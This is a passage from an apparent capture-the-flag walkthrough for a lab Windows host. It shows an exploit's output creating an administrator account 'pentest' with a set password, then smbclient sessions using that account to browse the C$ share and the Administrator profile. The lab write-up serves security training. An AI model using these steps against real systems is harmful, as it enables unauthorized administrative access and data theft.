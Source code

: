 ```

 [*] adding a user pentest to the administrators group 
 [*] sending notification wait....


 [*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun! 
```

With the successful execution of the exploit, a new user is created on the target system with administrator privilege which we can use to access the root flag.

## **Using SMB**
During recon, we had found that the system had a SMB share that was acccessible to authenticated users only. Now that we have credentials, we can try to connect to the share and gain access to the system flag.

```
$ smbclient --user=pentest -L \\\\10.10.10.152\\                                                                                                               1 ⨯ 2 ⚙
Enter WORKGROUP\pentest's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.152 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
$ smbclient --user=pentest \\\\10.10.10.152\\C$                                                                                                                    2 ⚙
Enter WORKGROUP\pentest's password: 
Try "help" to get a list of possible commands.
smb: \> cd Users
smb: \Users\> ls
  .                                  DR        0  Sun Feb  3 07:08:34 2019
  ..                                 DR        0  Sun Feb  3 07:08:34 2019
  Administrator                       D        0  Mon Feb 25 22:44:14 2019
  All Users                       DHSrn        0  Sat Jul 16 09:28:00 2016
  Default                           DHR        0  Sun Feb  3 07:05:38 2019
  Default User                    DHSrn        0  Sat Jul 16 09:28:00 2016
  desktop.ini                       AHS      174  Sat Jul 16 09:16:27 2016
  Public                             DR        0  Fri Jun 11 20:33:00 2021

		5114367 blocks of size 4096. 2944193 blocks available
smb: \Users\> cd Administrators
cd \Users\Administrators\: NT_STATUS_OBJECT_NAME_NOT_FOUND
smb: \Users\> cd Administrator
smb: \Users\Administrator\> ls
  .                                   D        0  Mon Feb 25 22:58:46 2019
  ..                                  D        0  Mon Feb 25 22:58:46 2019
  AppData                            DH        0  Sun Feb  3 07:08:34 2019
  Application Data                DHSrn        0  Sun Feb  3 07:08:34 2019
  Contacts                           DR        0  Sun Feb  3 07:08:38 2019
  Cookies                         DHSrn        0  Sun Feb  3 07:08:34 2019
  Desktop                            DR        0  Sat Feb  2 23:35:23 2019
  Documents                          DR        0  Sun Feb  3 07:08:39 2019
  Downloads                          DR        0  Sun Feb  3 07:08:39 2019
  Favorites                          DR        0  Sun Feb  3 07:08:38 2019
  Links                              DR        0  Sun Feb  3 07:08:39 2019
  Local Settings                  DHSrn        0  Sun Feb  3 07:08:34 2019
  Music                              DR        0  Sun Feb  3 07:08:39 2019
  My Documents                    DHSrn        0  Sun Feb  3 07:08:34 2019
```